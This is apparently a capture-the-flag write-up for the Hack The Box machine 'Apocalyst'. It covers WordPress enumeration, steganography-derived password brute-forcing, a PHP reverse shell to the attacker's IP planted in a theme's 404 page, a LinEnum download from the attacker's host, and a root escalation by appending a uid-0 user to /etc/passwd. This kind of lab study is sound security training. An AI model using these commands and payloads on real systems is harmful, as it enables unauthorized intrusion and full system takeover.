









---
search:
  exclude: true
---
# Apocalyst Writeup

## Introduction :

Apocalyst is a medium linux box released back in August 2017

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.7/23 ] [~]
      → nmap -F 10.10.10.46
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-27 12:27 GMT
      Nmap scan report for 10.10.10.46
      Host is up (0.11s latency).
      Not shown: 98 closed ports
      PORT   STATE SERVICE
      22/tcp open  ssh
      80/tcp open  http
    
      Nmap done: 1 IP address (1 host up) scanned in 1.73 seconds
    
    
      λ nihilist [ 10.10.14.7/23 ] [~]
      → nmap -sCV -p80,22 10.10.10.46
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-27 12:28 GMT
      Nmap scan report for 10.10.10.46
      Host is up (0.095s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
      |   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
      |_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-generator: WordPress 4.8
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Apocalypse Preparation Blog
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 12.64 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up the 80th port running http so let's investigate it :

    
    
      λ root [ 10.10.14.11/23 ] [/home/nihilist]
    → echo '10.10.10.46 apocalyst.htb' >> /etc/hosts
    

` 

Once we add the apocalyst.htb domain name to our /etc/hosts file, we fix the formatting issue of what seems to be a wordpress website. Now let's run the wpscan command to see if we can find anything obvious :
    
    
      λ root [ 10.10.14.11/23 ] [/home/nihilist]
      → wpscan --url http://10.10.10.46 -e
      _______________________________________________________________
               __          _______   _____
               \ \        / /  __ \ / ____|
                \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
                 \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                  \  /\  /  | |     ____) | (__| (_| | | | |
                   \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
               WordPress Security Scanner by the WPScan Team
                               Version 3.7.8
             Sponsored by Automattic - https://automattic.com/
             @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
      _______________________________________________________________
    
      [+] URL: http://10.10.10.46/
      [+] Started: Mon Mar  2 14:32:34 2020
    
      Interesting Finding(s):
    
      [+] http://10.10.10.46/
       | Interesting Entry: Server: Apache/2.4.18 (Ubuntu)
       | Found By: Headers (Passive Detection)
       | Confidence: 100%
    
      [+] http://10.10.10.46/xmlrpc.php
       | Found By: Direct Access (Aggressive Detection)
       | Confidence: 100%
       | References:
       |  - http://codex.wordpress.org/XML-RPC_Pingback_API
       |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
       |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
       |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
       |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access
    
    [i] User(s) Identified:
    
    [+] falaraki
     | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
     | Confirmed By: Login Error Messages (Aggressive Detection)
    
    [!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up
    
    [+] Finished: Mon Mar  2 14:33:48 2020
    [+] Requests Done: 3064
    [+] Cached Requests: 43
    [+] Data Sent: 757.552 KB
    [+] Data Received: 440.874 KB
    [+] Memory used: 203.988 MB
    [+] Elapsed time: 00:01:14
    
    

And we have a username ! falaraki now let's make a directory wordlist using cewl, and then use owasp's dirbuster using the wordlist we created.
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Apocalyst]
    → cewl http://10.10.10.46 > directories.txt
    

and now passing the wordlist to dirbuster : 

 

Here we see that there is something odd with the Rightiousness directory, the size of the response doesn't correspond to the others (421 and here 440) So upon further investigation, we see that the webpage in question has just one image in jpg format. Looking at the sourcecode we get hinted towards a "needle" or perhaps in this case, steganography that's why we'll use the steghide command :

    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Apocalyst]
      → wget http://10.10.10.46/Rightiousness/image.jpg
      --2020-03-02 14:49:22--  http://10.10.10.46/Rightiousness/image.jpg
      Connecting to 10.10.10.46:80... connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 215541 (210K) [image/jpeg]
      Saving to: ‘image.jpg’
    
      image.jpg                     100%[===============================================>] 210.49K   435KB/s    in 0.5s
    
      2020-03-02 14:49:23 (435 KB/s) - ‘image.jpg’ saved [215541/215541]
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Apocalyst]
      → steghide extract -sf image.jpg
      Enter passphrase:
      wrote extracted data to "list.txt".
    
    

And we get a wordlist named "list.txt", let's try to use this wordlist as a password, using wpscan one more time. 
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Apocalyst]
    → sudo wpscan --url http://apocalyst.htb --usernames falaraki --passwords list.txt
    [sudo] password for nihilist:
    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
             WordPress Security Scanner by the WPScan Team
                             Version 3.7.8
           Sponsored by Automattic - https://automattic.com/
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________
    
    [+] URL: http://apocalyst.htb/
    [+] Started: Mon Mar  2 14:53:34 2020
    
    Interesting Finding(s):
    
    [+] Performing password attack on Wp Login against 1 user/s
    [SUCCESS] - falaraki / Transclisiation
    Trying falaraki / total Time: 00:00:16 <==========================================> (335 / 335) 100.00% Time: 00:00:16
    
    [i] Valid Combinations Found:
     | Username: falaraki, Password: Transclisiation
    
    [!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up
    
    [+] Finished: Mon Mar  2 14:54:01 2020
    [+] Requests Done: 388
    [+] Cached Requests: 5
    [+] Data Sent: 116.313 KB
    [+] Data Received: 1.533 MB
    [+] Memory used: 184.266 MB
    [+] Elapsed time: 00:00:26
    

and we have found credentials ! falaraki:Transclisiation so let's try to login at the corresponding url http://apocalyst.htb/wp-login :

 

And we are logged in ! now moving over to the appearance page we'll upload our reverse php shell :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Apocalyst]
    → locate nihilist.php
    /home/nihilist/_HTB/Bastard/nihilist.php
    /home/nihilist/_HTB/Cronos/nihilist.php
    /home/nihilist/_HTB/Haircut/nihilist.php
    /home/nihilist/_HTB/Networked/nihilist.php.gif
    /home/nihilist/_HTB/October/nihilist.php5
    /home/nihilist/_HTB/Popcorn/nihilist.php
    /home/nihilist/_HTB/Popcorn/nihilist.php.gif
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Apocalyst]
    → cp /home/nihilist/_HTB/Cronos/nihilist.php .
    
    λ nihilist [ 10.10.14.11/23 ] [~/_HTB/Apocalyst]
    → nano nihilist.php
    
    
    
      <****?php
    exec("/bin/bash -c 'bash -i > & /dev/tcp/10.10.14.11/9001 0>&1'");
    ?****>

` 

Once we have updated the 404.php page we just have to browse to it for it to connect back to us: 

And we get a reverse shell as www-data ! let's see if we can print out the user flag : 
    
    
      www-data@apocalyst:/$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@apocalyst:/$ cd home
    cd home
    www-data@apocalyst:/home$ ls
    ls
    falaraki
    www-data@apocalyst:/home$ cd falaraki
    cd falaraki
    www-data@apocalyst:/home/falaraki$ cat user.txt
    cat user.txt
    91XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the user flag. 

## **Part 3 : Getting Root Access**

Now before we attempt to privesc let's spawn a tty shell using python3, since python1 isn't there on the machine. 
    
    
      www-data@apocalyst:/home/falaraki$ which python
    which python
    www-data@apocalyst:/home/falaraki$ which python3
    which python3
    /usr/bin/python3
    www-data@apocalyst:/home/falaraki$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@apocalyst:/home/falaraki$ ls
    ls
    user.txt
    
    www-data@apocalyst:/home/falaraki$ which wget
    which wget
    /usr/bin/wget
    

Now that we have wget on the machine, we can enumerate the machine by uploading LinEnum.sh into the /tmp directory. 
    
    
      ww-data@apocalyst:/home/falaraki$ cd /tmp
    cd /tmp
    www-data@apocalyst:/tmp$ wget 10.10.14.11:1234/LinEnum.sh
    wget 10.10.14.11:1234/LinEnum.sh
    --2020-03-02 15:28:52--  http://10.10.14.11:1234/LinEnum.sh
    Connecting to 10.10.14.11:1234... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 46631 (46K) [text/x-sh]
    Saving to: 'LinEnum.sh'
    
    LinEnum.sh          100%[===================>]  45.54K   225KB/s    in 0.2s
    
    2020-03-02 15:28:52 (225 KB/s) - 'LinEnum.sh' saved [46631/46631]
    
    www-data@apocalyst:/tmp$ chmod +x LinEnum.sh
    chmod +x LinEnum.sh
    www-data@apocalyst:/tmp$ ./LinEnum.sh
    

Then looking at the results, we see that we can read/write (RW) into sensitive files within /etc most notably passwd, group, noprofile or shadow. so let's use openssl to generate a password (123) :
    
    
      λ nihilist [ 10.10.14.11/23 ] [~]
    → openssl passwd -1
    Password:
    Verifying - Password:
    $1$nxydvNly$fw09LyfykjjXEd3RXeRo5/
    

Now with this we can construct a line to add in /etc/passwd : 
    
    
      root2:$1$nxydvNly$fw09LyfykjjXEd3RXeRo5/:0:0:root2:/root:/bin/bash
    
    
    
      www-data@apocalyst:/etc$ echo 'root2:$1$nxydvNly$fw09LyfykjjXEd3RXeRo5/:0:0:root2:/root:/bin/bash' >> passwd
    
      www-data@apocalyst:/etc$ cat passwd
      cat passwd
      root:x:0:0:root:/root:/bin/bash
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
      systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
      systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
      systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
      syslog:x:104:108::/home/syslog:/bin/false
      _apt:x:105:65534::/nonexistent:/bin/false
      lxd:x:106:65534::/var/lib/lxd/:/bin/false
      messagebus:x:107:111::/var/run/dbus:/bin/false
      uuidd:x:108:112::/run/uuidd:/bin/false
      dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
      falaraki:x:1000:1000:Falaraki Rainiti,,,:/home/falaraki:/bin/bash
      sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
      mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
      nihilist:$1$k48ck7uo$/CibZLSHGr7wiCQJWNQNW./:0:0:nihilist:/root:/bin/bash
      nihilist:$1$dkV9okB6$oRhhfakYp7/2QRZpsD0570/:0:0:nihilist:/root:/bin/bash
      root2:$1$nxydvNly$fw09LyfykjjXEd3RXeRo5/:0:0:root2:/root:/bin/bash
    

Now that's done let's su as root2 
    
    
      www-data@apocalyst:/etc$ su root2
      su root2
      Password: 123
    
      root@apocalyst:/etc# id
      id
      uid=0(root) gid=0(root) groups=0(root)
    

And that's it ! we have been able to log into the second root user we just created, effectively escalating privileges to the root permissions. now we just have to print our root flag :
    
    
      root@apocalyst:/etc# cat /root/root.txt
      cat /root/root.txt
      1cXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

